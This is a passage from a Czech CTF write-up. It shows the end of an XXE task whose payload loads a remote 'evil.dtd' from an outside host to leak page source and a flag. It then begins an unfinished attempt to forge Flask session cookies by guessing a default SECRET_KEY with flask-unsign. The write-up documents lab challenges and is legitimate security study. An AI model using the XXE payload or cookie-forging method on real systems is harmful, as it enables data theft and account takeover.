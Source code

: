 ```xml
<!DOCTYPE data [
  <!ENTITY % dtd SYSTEM
  "http://10.200.0.7/evil.dtd">
  %dtd;
  %all;
]>
<data>&contents;</data>
```

… a parser nám vypíše zdrojáky stránky obsahující mimo jiné i FLAG: `FLAG{GG53-5U3w-VT8F-qB31}`.

### Blog site (nedokončeno, 4 body)

> Hi, packet inspector,
>
> a simple blog webpage was created where all employees can write their
> suggestions for improvements. It is one part of the optimization plan designed
> by our allmighty AI.
>
> Examine the web <http://blog.mysterious-delivery.tcc:20000/> and find any
> interesting information.
>
> May the Packet be with you!

*Disclaimer: Tuto úlohu jsem bohužel nedokončil. Sepisuji zde alespoň svůj
postup, který ale nemusí vést k řešení.*

Když se podíváme na odkazovaný blog, okamžitě nás zaujme jeho název – Flaskr.
Vypadá to, že má něco společného s webovým frameworkem Flask pro Python.
A skutečně, když zkusíme tento název vyhledat, tak dohledáme, že se jedná
o [ukázkový tutoriál na tvorbu Flask aplikace](https://flask-docs-ja.readthedocs.io/en/latest/tutorial/).
Dokonce si můžeme stáhnout i zdrojové kódy:

<https://github.com/pallets/flask/tree/main/examples/tutorial>

Máme tedy zdrojové kódy aplikace, tak si ji můžeme prohlédnout. Je to jednoduchá
aplikace, která používá SQLite3 databázi uživatelů a příspěvků, a umožňuje
registraci a přihlášení uživatelů a napsání a editaci příspěvku.

Aplikace na první pohled neobsahuje žádnou zjevnou díru, tak jsem zkusil cílit
svůj útok na její nastavení. Přihlášený uživatel je totiž autentifikován
pomocí podepsané cookie s názvem `session`. Pomocí devtools si ji vytáhneme,
může vypadat třeba takto:

```text
eyJ1c2VyX2lkIjoxMDAxfQ.Y2v_5g.ECnkItqMkllygEgnPXPAby6AvjE
```

Její první část je base64 zakódovaný JSON, v tomto případě `{"user_id":1001}`.
Druhá část je pak podpis. Podpis vznikl s použitím `SECRET_KEY` z konfigurace.
Jedna z možností je, že autor aplikace nezměnil defaultní hodnotu z tutoriálu.
Pojďme tedy zkusit nějaké nástroje.

Existuje jednoduchý tool [flask-unsign](https://pypi.org/project/flask-unsign/),
kterému lze zadat cookie a zkusit, jestli náhodou neuhádneme klíč, se kterým
byla vytvořena:
